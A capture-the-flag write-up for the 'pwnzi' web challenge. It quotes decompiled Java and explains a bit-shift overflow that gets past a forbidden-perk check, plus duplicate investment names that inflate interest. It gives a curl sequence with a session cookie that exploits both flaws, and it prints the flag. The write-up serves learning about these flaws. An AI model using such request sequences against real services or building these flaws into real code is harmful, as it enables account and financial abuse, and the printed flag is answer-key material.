

#### Challenge:

Do you want to make $1500 in an hour at the comfort of your home? Come join my online network! I am recruiting bright and ambitious people just like you!

https://pwnzi.ctf.spamandhex.com/

---

#### Solution:

- in web page source `jar` link of app is hidden in comment `<!-- https://pwnzi.ctf.spamandhex.com/pwnzi.jar -->`
- to get `FLAG` perk we need to get past these checks:
  - `perk == hu.spamandhex.pwnzi.Perks.FLAG`
  - `this.calculateExpectedInterest(user) < this.requiredInterestForPerk(perk)`

```java
    @PostMapping({"/claim-perk"})
    @Transactional
    public ResponseEntity<String> claimPerk(@RequestParam("perk") final int perk, final HttpSession session) {
        if (perk < 0) {
            throw new PwnziException("value error");
        }
        final User user = this.currentUser(session);
        if (user.hasPerk(perk)) {
            throw new PwnziException("perk already credited");
        }
        if (perk == hu.spamandhex.pwnzi.Perks.FLAG) {
            throw new PwnziException("sry, you have to work a bit harder for the flag");
        }
        if (this.calculateExpectedInterest(user) < this.requiredInterestForPerk(perk)) {
            throw new PwnziException("need more expected interest for this perk");
        }
        user.addPerk(perk);
        return (ResponseEntity<String>) ResponseEntity.ok((Object) "perk credited");
    }
```

- to get rid of the first check we could use overflow as `(short)(1 << 14)` is the same as `(short)(1 << 46)`

```java
    public boolean hasPerk(final int perk) {
        return (this.perks & 1 << perk) != 0x0;
    }
    
    public void addPerk(final int perk) {
        this.perks |= (short)(1 << perk);
    }
```

- second check cannot be avoided so we need to earn `4600000` of interests
  - `calculateExpectedInterest` sub-investments have higher value that root investments...
    ```java
        private double calculateExpectedInterest(final Investment investment) {
            final double subInterests = this.stream((Collection<Object>) investment.getChildren()).mapToDouble((ToDoubleFunction<? super Object>) this::calculateExpectedInterest).sum();
            return (investment.getDeposit() + subInterests) * this.config.getInterestRate();
        }
    ```
  - `makeInvestment` doesn't check if the investment with provided name already exists, that can be used to register multiple `child-investments` for the cost of only one investment
    ```java
        @DeleteMapping({"/myinvestments/{name}"})
        @Transactional
        public ResponseEntity<String> deleteInvestment(@PathVariable("name") final String name, final HttpSession session) {
            final User user = this.currentUser(session);
            final Investment investmentToDelete = this.investments.findByOwnerAndName(user, name).orElse(null);
            if (investmentToDelete == null) {
                throw new NotFoundException();
            }
            user.getInvestments().removeIf(i -> i == investmentToDelete);
            for (final Investment investment : this.investments.findByOwner(user)) {
                investment.getChildren().removeIf(i -> i == investmentToDelete);
            }
            user.setBalance(user.getBalance() + investmentToDelete.getDeposit());
            this.investments.delete((Object) investmentToDelete);
            return (ResponseEntity<String>) ResponseEntity.ok((Object) "ok");
        }

        @PostMapping({"/myinvestments"})
        @Transactional
        public ResponseEntity<String> makeInvestment(@RequestBody final MakeInvestmentRq rq, final HttpSession session) {
            String name = rq.getName();
            if (name == null) {
                name = UUID.randomUUID().toString().substring(0, 8);
            }
            final int deposit = Optional.ofNullable(rq.getDeposit()).orElse(this.config.getMinDeposit());
            if (deposit < this.config.getMinDeposit()) {
                throw new PwnziException(invokedynamic(makeConcatWithConstants:(I) Ljava / lang / String;,
                this.config.getMinDeposit()));
            }
            final User user = this.currentUser(session);
            if (user.getBalance() < deposit) {
                throw new PwnziException("not enough cash");
            }
            final Investment parent = this.investments.findByOwnerAndName(user, rq.getParentName()).orElse(null);
            final Investment newInvestment = new Investment().setOwner(user).setName(name).setDeposit(deposit);
            user.setBalance(user.getBalance() - deposit);
            this.investments.save((Object) newInvestment);
            if (parent != null) {
                parent.getChildren().add(newInvestment);
            } else {
                user.getInvestments().add(newInvestment);
            }
            return (ResponseEntity<String>) ResponseEntity.ok((Object) "ok");
        }
    ```

- combining reuse of investment names and multiple `child-investments` we can earn more than `46000000`


```bash
COOKIE='Cookie: SESSION=MmJkNTk5ZjktOTIwMy00NGEzLThlZjgtNjAyM2E2Mzc2NzM3'
# Invest money
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"1","deposit":100000}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"1","deposit":100000}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"1","deposit":100000}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"2","deposit":100000,"parentName":"1"}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"2","deposit":100000,"parentName":"1"}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"3","deposit":100000,"parentName":"2"}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"3","deposit":100000,"parentName":"2"}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"4","deposit":100000,"parentName":"3"}'
# Earn perk 14 via overflow
curl -X POST 'https://pwnzi.ctf.spamandhex.com/claim-perk?perk=46' -H $COOKIE -H 'Origin: https://pwnzi.ctf.spamandhex.com'
curl 'https://pwnzi.ctf.spamandhex.com/flag1' -H $COOKIE -H 'Referer: https://pwnzi.ctf.spamandhex.com/profile.html'
```

---

<details><summary>FLAG:</summary>

```
SaF{no_obfuscation_is_like_giving_sauce}
```

</details>
<br/>
